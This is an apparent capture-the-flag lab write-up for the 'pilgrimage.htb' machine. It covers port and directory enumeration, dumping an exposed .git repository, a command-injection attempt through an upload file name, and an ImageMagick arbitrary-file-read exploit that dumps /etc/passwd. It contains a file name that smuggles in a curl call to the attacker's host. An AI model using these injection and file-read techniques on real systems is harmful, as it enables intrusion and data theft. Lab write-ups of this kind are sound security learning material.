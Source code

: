 ### inital enumeration

nmap results

Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


it has a website

![](20230722182338.png)

it has a register page

its php

so lets go dirb, gobuster

gobuster dir --url http://pilgrimage.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pilgrimage.htb -t 50 --append-domain

nothing on the subdomain enumeration

### content upload

all shrunk pictures come on the dashboard

where pictures are stored bu there is no lfi here

![](20230722183802.png)

lets try and load a php webshell
there is content restriction it seems

php change did not work


tried to forge  php shell across

![](20230722185519.png)


### other things on website?

and there are other pathways available

/index.php            (Status: 200) [Size: 7621]
/.html                (Status: 403) [Size: 153]
/login.php            (Status: 200) [Size: 6166]
/register.php         (Status: 200) [Size: 6173]
/assets               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/assets/]
/logout.php           (Status: 302) [Size: 0] [--> /]
/vendor               (Status: 301) [Size: 169] [--> http://pilgrimage.htb/vendor/]
/dashboard.php        (Status: 302) [Size: 0] [--> /login.php]
/tmp                  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/tmp/]

but all of them are forbidden now

### git

also just through drib found that .git repo is also available here

![](20230722184304.png)

but HEAD does not mention much

pip install git-dumper

git-dumper URL DIR

using git-dumper.py

was able to get the source code of the entire thing!

now need to go thorugh the code of the github

emily@pilgrimage.htb>

`exec("/var/www/pilgrimage.htb/magick convert /var/www/pilgrimage.htb/tmp/" . $upload->getName() . $mime . " -resize 50% /var/www/pilgrimage.htb/shrunk/" . $newname . $mime);

`
this is the function calling it

can we add something in the name itself to make it execute?

"new|curl http://10.10.16.47:8000/iamcurling;".png

![](20230723101916.png)

### imagemagick vulnerability

IMageMagick library has an arbitrary file read vulnerability

and rce .

tested rce did not work

let check out arbitrary file read

after using the magick_exploit.py get the resultant file and usin 

convert downloaded_image.png result.png

identify -verbose result.png

(~)>>> python3 -c 'print(bytes.fromhex("726f6f743a783a726f6f743---REDACTED--").decode("utf-8"))'


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

![](20230723122440.png)

this works

so we have arbitrary file read

I have created a repo at https://github.com/fanbyprinciple/ImageMagick-lfi-poc 

### lets try and get the user flag
